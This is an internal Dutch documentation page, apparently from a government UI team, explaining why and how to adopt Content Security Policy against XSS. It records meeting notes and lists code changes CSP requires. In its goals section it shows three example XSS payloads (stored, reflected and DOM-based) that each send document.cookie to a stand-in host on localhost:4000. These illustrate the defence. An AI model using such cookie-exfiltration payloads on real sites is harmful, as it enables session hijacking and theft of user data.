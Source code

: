 
<Meta title="Applicatief/CSP/Content Security Policy"/>

# Content Security Policy (WIP)

Zie ook https://www.milieuinfo.be/confluence/display/FEO/CSP+compliance<br/>
&nbsp;&nbsp;-> op te nemen op of naast deze pagina en te verwijderen uit confluence

## Inleiding

Tot op heden (begin 2023) wordt er door UIG niets gespecifieerd rond [CSP](https://content-security-policy.com/).
Volgende zaken zijn al gebeurd m.b.t. CSP:

### januari 2023

In het kader van ticket [UIG-2207](https://www.milieuinfo.be/jira/browse/UIG-2207) zijn er beperkt zaken bekeken,
er is nog geen actie ondernomen (zie ook de opmerkingen in het ticket).

### maart 2023

Het volgende is gemeld op de [TAW van 02/03/2023](https://www.milieuinfo.be/confluence/display/AEO/2023-03-02%3A%3A+Verslag)
door Christophe De Blende en besproken:

> Ik heb zo het gevoel dat de urgentie van CSP onderschat wordt. Hier een paar statistieken van de verschillende
aanvallen die op de RP innet gecapteerd worden: <a href="top-threats-20221013.pdf" target="_blank">23/10/2022</a>, <a href="top-threats-20230213.pdf" target="_blank">23/02/2023</a> en <a href="top-threats-20230227.pdf" target="_blank">27/02/2023</a>.
Van belang, al wat via SSL gebeurt zien we zelf niet. Dus er zijn veel exploits die nog niet gedetecteerd worden
omwille van de huidige firewall / ssl terminatie setup.<br/>
Er is wel een tijdje een firewall loop toegevoegd geweest om log4j shell exploit te kunnen firefighten en deze
statistieken zijn ook meegenomen. Om aan te geven dat je met een factor 100 mag vermenigvuldigen wat je nu ziet
in de dagdagelijkse statistieken.

Hierbij zijn er volgende vragen / bemerkingen:
- hoe verhouden die statistieken zich tot CSP: welke zullen er verminderen / verdwijnen als CSP actief wordt ?
- het 'algemeen activeren van CSP' op de reverse-proxy (wat Lode al eens geprobeerd zou hebben - op ontwikkel?) is
  niet zinvol, veel toepassingen zullen dan niet meer werken
- CSP activatie zou applicatie per applicatie moeten doorgevoerd worden, omdat dit een grote doorlooptijd
  (maanden / jaren) zal hebben zouden statistieken per sub-domein uitgesplitst moeten worden om impact te kunnen zien


## CSP en XSS

Eén van de belangrijkste zaken waartegen je je kan beschermen met CSP is tegen Cross Side Scripting (XSS). Een uitleg
van wat XSS is vind je in het artikel [cross site scripting xss](https://auth0.com/blog/cross-site-scripting-xss), hoe
je je dan met CSP daartegen kan beschermen staat uitgelegd in
[defending against xss with csp](https://auth0.com/blog/defending-against-xss-with-csp). Voor toepassingen die een SPA
opzet volgen is er het specifiekere artikel [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).


## Doelen

Het hoofddoel om CSP te activeren is om te zorgen dat een webtoepassing enkel eigen, vertrouwde code bevat en uitvoert.
Enkel de eigen geschreven / voorziene javascript, html en css mag getoond en uitgevoerd worden. Wijzigen, tonen of
uitvoeren van 'andere' code wordt afgeblokt. Voorbeelden hiervan zijn:

### Stored XSS tegenhouden

In input velden zou malicious code ingevoerd kunnen worden conform:

```
<script>fetch(`http://localhost:4000?data=${document.cookie}`)</script>
```

Als deze code dan (denk bvb. in het geval van een blog) door een andere gebruiker geopend en uitgevoerd wordt kunnen er
ongewenst gegevens gecapteerd worden.

### Reflected XSS tegenhouden

Links (aangeboden via een href of verborgen via een shortening service) die refereren naar een toepassing kunnen
scripts bevatten:

```
http://localhost:3000/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A4000%3Fdata%3D%24%7Bdocument.cookie%7D%60%29%3C%2Fscript%3E
```

### DOM based XSS tegenhouden

In de DOM kan (door via een malicious website omgeleid te zijn) geldige, maar kwaadwillige html gestoken zijn.

```
<img src="noimage" onerror=fetch(`http://localhost:4000?data=${document.cookie}`)/>
```

### CSS XSS tegenhouden

Zie het filmpje en de presentatie op [xss no the other s](https://mikewest.org/2013/09/xss-no-the-other-s-cssconfeu-2013).


## CSP activeren

Wat er praktisch dient te gebeuren naar deploy en configuratie toe om CSP te activeren voor de complexere
toepassingen wordt beschreven in [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).

Alvorens dit echter kan zullen er code wijzigingen moeten gebeuren, denk hierbij aan:

- inline javascript mag niet - alle javascript moet in aparte .js bestanden gestoken worden<br/>
  -> de overgrote meerderheid van onze webcomponenten heeft geen inline javascript<br/>
  -> toepassing per toepassing moet bekeken worden om dat eventueel weg te werken
- inline styling mag niet<br/>
  -> zowel in de webcomponenten als in toepassingen zal dit voorkomen, veel meer dan inline javascript
- voor externe componenten moet geëvalueerd worden hoe we ze CSP gewijs kunnen gebruiken, 2 belangrijke zijn
  [TinyMCE](https://www.tiny.cloud/docs/tinymce/6/tinymce-and-csp/) en de
  [global header en footer](https://www.vlaanderen.be/digitaal-vlaanderen/onze-oplossingen/mijn-burgerprofiel/global-header-en-footer)
  van Digitaal Vlaanderen
